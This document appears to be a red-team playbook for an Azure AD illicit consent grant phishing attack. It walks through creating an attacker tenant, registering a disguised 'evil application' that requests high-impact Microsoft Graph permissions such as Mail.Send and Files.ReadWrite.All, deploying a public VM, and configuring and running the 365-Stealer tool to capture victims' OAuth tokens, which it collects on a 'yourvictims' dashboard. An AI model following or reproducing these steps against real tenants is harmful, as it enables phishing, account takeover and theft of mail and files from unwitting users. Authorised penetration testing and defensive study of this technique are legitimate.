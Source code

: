 <!--
 -------------------------------------------------------------------------------
 Copyright: (c) BLS OPS LLC.
 This program is free software: you can redistribute it and/or modify
 it under the terms of the GNU General Public License as published by
 the Free Software Foundation, version 3.
 This program is distributed in the hope that it will be useful,
 but WITHOUT ANY WARRANTY; without even the implied warranty of
 MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
 GNU General Public License for more details.
 You should have received a copy of the GNU General Public License
 along with this program. If not, see <https://www.gnu.org/licenses/>.
 -------------------------------------------------------------------------------
-->

# Illicit Consent Grant

## Tags
<details><summary>Tags</summary><p>

`#@Azure #@AAD #@Token #@AccessToken #@RefreshToken #@Refresh #@Access #@Phishing #@Consent`

</details>

## Background

By default, any user can register an application in Azure AD. We can register an application (only for the target tenant) that needs high impact permissions with admin consent - like sending mail on a user's behalf, role management, etc. This will allow us to execute phishing attacks that would be very fruitful in case of success

## Set up a MSFT Tenant

- Go to `portal.azure.com`
- Login
- Click the hamburger
- Select `Azure Active Directory`
- select `Create A Tenant`
- Select the radio button for `Azure Active Directory` and hit Next
- Fill in organization name and initial domain name to match something you want to be phishing with and hit `Next`
- Review your inputs and hit `Create`
	+ You may have to prove you're not a cyborg
- Once creation is finished, the info dialog box will notify you in green and give you a link to manage your new tenant

## Register your evil application

- In the newly created tenant dashboard, navigate to `Azure Active Directory` from the hamburger menu
- Navigate over to `App Registrations`
- Navigate to `New Registration`
- On this page, fill out the following fields
	+ `Name` : Name of your application, this will be visible to the target user, so use something that fits your narrative, like `Resume Viewer`
- Select the radio button for
	+ `Accounts in any organizational directory (Any Azure AD directory - Multitenant)`
- Fill in an appropriate URL for the `Redirect URI`, here we want to use a system we control that can be reached publicly
	+ You may want to set up a VM in azure to accomplish this and will need one to run o365-stealer later on anyway
    + https://IP-OF-PUBLIC-SYSTEM/login/authorized
- Select `Register`
- Once the application is registered, navigate over to `Certificates & secrets` in the new application dashboard
- Create a new client secret ( `New client secret` button ), give it a useful sounding name ( `Secret` ), set expiration to what you think is reasonable ( `12 Months` ), click `Add`
- Copy the values `Value` and `Secret ID` somewhere safe
	+ Value: `<some-value>`
	+ Secret ID: `<some-id>`
- Navigate over to `API Permissions`
	+ `User.Read` is typically already populated, if not add it as well as `User.ReadBasic.All` by:
		* clicking on `Add a permission` 
		* Select `Microsoft Graph`
		* Select `Delegated Permissions`
		* Type in `User.ReadBasic.All`
		* Expand the `User` row and check the `User.ReadBasic.All` Permission
	+ Select `Add permissions`
	+ It should be noted that these two permissions should not require any sort of Admin approval on the target end, even if they have their tenant security policies in order
	+ If they do not have them in order, or if you are specifically targetting a known Admin account, you can ask for many more things such as:
		* `Mail.Read`
		* `Notes.Read.All`
		* `Mailboxsettings.ReadWrite`
		* `Files.ReadWrite.All`
		* `Mail.Send`
        * `Directory.AccessAsUser.All`

## O365-Stealer

### Set up a VM

- We're going to need a public facing system to catch stolen tokens and interact with the target
- Log in to `portal.azure.com` under your tenant
- Navigate over to `Virtual Machines` in the hamburger menu
- Create a new virtual machine
- Fill in the following
    + Subscription: `subscription`
    + Resource Group: Whatever is appropriate
    + Virtual Machine Name: Whatever is appropriate
    + Region: Try to match up with the HQ location of target organization
    + Availability Options: No infrastructure redundancy required
    + Image: Windows 10 Pro - Gen1
    + Azure Spot instance: unchecked
    + Size: Standard_B2s - 2 vcpus, 4 GiB memory
    + Username: `<username>`
    + Password: generate a secure password for this
    + Select Inbound Ports: HTTP (80), HTTPS (443), RDP (3389)
        * Restrict 3389 access to your IP
    + Confirm you have a license
- Proceed to the Disk settings
    + OS Disk Type: Standard SSD
    + Encryption Type: (Default) Encryption at-rest
    + Enable Ultra Disk compatibility: unchecked
- Proceed to `Review + create`
    + Make sure everything looks okeedokee and click on `Create`
- It will take some time to deploy, so just grab some coffee or a ham sammich

### Set up O365-Stealer

- In the azure portal, under the hamburger menu, go to `Virtual Machines`
- Select the one you just created
- Copy down the public IP address
    + At this point, you may want to go back to your evil application and edit the `Redirect URI`
- Connect into your VM using RDP (Remmina [linux] or RDP [windows] )
    + Will take some time on initial setup
- Open up a browser and navigate to `https://www.apachefriends.org/download.html` and download XAMPP for Windows, at time of writing the newest available version is 8.0.10
- Run the installer, you don't need FTP
- Once installed, open up `XAMPP` and start the `Apache` service
    + Allow windows firewall rules to be created for Apache service
- Download the o365-stealer repo to the system
- https://github.com/AlteredSecurity/365-Stealer
- Create `C:\xampp\htdocs\365-Stealer`
- Copy the contents of the repo archive there
- Install Python3 if you don't already have it
- Inside the `365-Stealer` directory run `pip install -r requirements.txt`
- On the XAMPP dashboard, next to Apache, click `Config` and select `php.ini`
- Search for `extension=sqlite3` and remove the `;` from the beginning to uncomment it out, save and close
- (Re)start the Apache server
- To avoid conflict between Apache and 365-stealer, change the httpd.conf and httpd-ssl.conf to listen on 8000 and 8443 respectively. Restart the Apache service to reflect changes
- Edit `C:/xampp/htdocs/yourvictims/index.php` to include the location of the database file that holds victim information `../database.db` , path of `../365-stealer.py` and the path to `python.exe`. Save and close
    + Note, if the path to `python.exe` contains spaces, the full quoted path will be needed
- Whitelisting is enabled by default to only allow localhost to access the stealer dashboard. You can add other IPs there
- Now, we need to set out client-id, client-secret and redirect-url, so navigate to `C:\xampp\htdocs\365-Stealer`
- Execute `python .\365-stealer.py --set-config`
- Supply the necessary data for the beforementioned variables, you can leave the rest blank
    + Client ID can be found by navigating to the evil app in our evil tenant and grabbing the application's `client-id`

### Execute

- With everything configured properly, it's time to run `365-stealer.py`
- Open up a powershell or cmd prompt and navigate to the `C:\xampp\htdocs\365-Stealer` directory
- Execute `python .\365-stealer.py --run-app`
- Copy down the phishing link supplied, and give it a test run
- You should be able to gather at least the users within a tenant, once they have clicked, signed in, and authorized on the authenticator, you will receive all the good infos and tokens
- Navigate over to `http://localhost:8000/365-Stealer/yourvictims/` to get your gold

